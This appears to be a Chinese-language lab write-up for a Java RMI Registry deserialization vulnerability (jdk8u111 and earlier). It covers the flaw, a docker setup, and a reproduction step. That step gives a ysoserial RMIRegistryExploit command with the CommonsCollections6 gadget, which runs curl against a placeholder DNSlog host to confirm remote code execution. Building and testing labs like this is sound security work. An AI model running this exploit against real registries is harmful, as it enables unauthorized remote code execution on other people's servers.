

# Java RMI Registry 反序列化漏洞(<=jdk8u111)

## 漏洞描述

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能（虽然大多数情况不允许远程bind），在bind过程中，伪造Registry接收到的序列化数据（实现了Remote接口或动态代理了实现了Remote接口的对象），使Registry在对数据进行反序列化时触发相应的利用链（环境用的是commons-collections:3.2.1）。

## 环境搭建

执行如下命令编译及启动RMI Registry和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过ysoserial的exploit包中的RMIRegistryExploit进行攻击

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```



Registry会返回报错，但命令会正常执行。可以看到dnslog成功接收请求。

